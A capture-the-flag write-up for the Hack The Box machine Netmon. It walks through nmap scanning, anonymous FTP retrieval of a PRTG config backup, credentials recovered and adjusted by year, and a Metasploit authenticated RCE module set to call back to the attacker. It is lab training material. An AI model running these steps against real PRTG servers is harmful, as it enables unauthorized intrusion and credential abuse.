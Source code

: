 # Netmon (10.10.10.152 -windows)
## Writeup by Hexachroma

1. nmap -sC -sV -oN nmap/init 10.10.10.152 -v 
```java
21/tcp  open  ftp          Microsoft ftpd                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd                          
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs                      
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)           
| 02-03-19  08:08AM       <DIR>          Users                         
|_02-25-19  11:49PM       <DIR>          Windows           
| ftp-syst:                                                            
|_  SYST: Windows_NT                                                   
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)                                                         
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479  
| http-methods:                                                        
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm 
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

2. Enumerating FTPuser to get juicy user.txt
>	`get C:\Users\public\user.txt`

3. Looking at the webserver and found out PRTG NETMON is installed
>	Stumble upon official documentation and learn that this app stores old config data
>	Using FTP to reach and download the conf
>	
>	![](docs/ftp.png)

4. Open the xml bak file
>	Found possible cred
>	
>	![](docs/cred.png)

5. Try FTP with prtgadmin:PrTg@dmin2018
>	Failed

6.	Lets get back to login page (netmon.htb/index.htm)
>	Using prtgadmin:PrTg@dmin2018 and fail
>	
>	Using prtgadmin:PrTg@dmin2019 Success!
>	
>	![](docs/loginpage.png)

7.	find further vulnerability in current version
>	![](docs/vuln.png)

8. 	searchsploit current version
>	![](docs/searchsploit.png)

9.	using metasploit 
```
use exploit/windows/http/prtg_authenticated_rce
set admin_password PrTg@dmin2019
set RHOST $IP
set LHOST tun0	set LPORT 9001
run
```
>	![](docs/rce.png)
